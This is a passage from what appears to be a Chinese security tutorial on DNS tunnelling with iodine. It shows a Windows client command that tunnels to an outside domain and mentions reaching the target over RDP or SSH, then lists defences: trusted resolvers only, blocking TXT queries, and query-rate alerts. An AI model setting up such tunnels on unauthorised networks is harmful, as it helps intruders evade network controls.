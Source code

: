   

这样客户端和服务端就相当于在同一个局域网，我们就可以通过 SSH 登录服务端，反过来服务端也可以通过 SSH 登录服务端：

```
ssh 192.168.0.1

```

![](https://mmbiz.qpic.cn/mmbiz_png/Tvn7G7hSv377iccjW0URAm01KypFic6Z3tNQYGlJiaSbib8Hk9niaHFJPgP2YKcjycasvFib7SoGZKkiaCcOvml3ibuKLg/640?wx_fmt=png)

  

在 Windows 客户端：

windows 客户端可以直接使用编译好的 windows 版本，同时需要安装 TAP 网卡驱动程序。也可以下载 OpenVPN，在安装时仅选择 TAP-Win32 驱动程序：

![](https://mmbiz.qpic.cn/mmbiz_png/Tvn7G7hSv377iccjW0URAm01KypFic6Z3tJQK3zm8G1Dm1OAVX2atGDSwMxyUzbbafeyGhtRBbc8hyRVCGlX2kfA/640?wx_fmt=png)

  

安装后服务器上就会多出一块 “TAP-Wndows ADApter V9” 的网卡：

![](https://mmbiz.qpic.cn/mmbiz_png/Tvn7G7hSv377iccjW0URAm01KypFic6Z3tOVVZtI0FrNMcnbjNibKT3w5TwlWZW4WyQLWcP4VhPbzdspmb79R1Xicg/640?wx_fmt=png)

  

运行客户端程序 iodine(cmd 已管理员权限运行)，如果出现提示 “Connection setup complete, transmitting data”，就表示 DNS 隧道已经建立。

```
iodine.exe -f -P saul vpn.saulgoodman.club

```

![](https://mmbiz.qpic.cn/mmbiz_png/Tvn7G7hSv377iccjW0URAm01KypFic6Z3tsCeibS2XZjia1XPofbkHcbjRl089Wv3KogFqWiaibw7PibHq9on5V9XDu0A/640?wx_fmt=png)

  

此时，TCPoverDNS 已经建立了，在客户端 ping 192.168.0.1 命令可以 ping 通：

![](https://mmbiz.qpic.cn/mmbiz_png/Tvn7G7hSv377iccjW0URAm01KypFic6Z3tJSYxNHbQ85mXqU8tc3eZianr8UsFj1QedzXgKKNRibXfOfNTNArnV7pw/640?wx_fmt=png)

  

DNS 隧道使用方法比较简单，由于客户端和服务端在同一个局域网中，只要访问服务端即可。

例如想要登录目标主机的 3389 端口，就可以执行 mstsc 命令，同样目标主机也可以登录 SSH 服务端。

三、防御 DNS 隧道攻击的方法

　　1. 禁止网络中任何人向外部服务器发送 DNS 请求，只允许与受信任的 DNS 服务器通信。

　　2. 虽然没有人会将 TXT 解析请求发送给 DNS 服务器，但是邮件服务器 / 网关会这样做，因此，可以将邮件服务器 / 网关列入白名单并阻止传入和传出流量中的 TXT 请求。

　　3. 跟踪用户的 DNS 查询次数，如果达到阈值，就生成相应的报告。

参考文章：

[https://mp.weixin.qq.com/s/jHTt-ucuIf_X7htEA5VyAQ](https://mp.weixin.qq.com/s?__biz=MzAxMjcxMjkyOA==&mid=2247484727&idx=1&sn=229be0fc19b6eef43d442c1ea71deb3f&scene=21#wechat_redirect "https://mp.weixin.qq.com/s?__biz=MzAxMjcxMjkyOA==&mid=2247484727&idx=1&sn=229be0fc19b6eef43d442c1ea71deb3f&scene=21#wechat_redirect")

https://www.cnblogs.com/micr067/p/12263337.html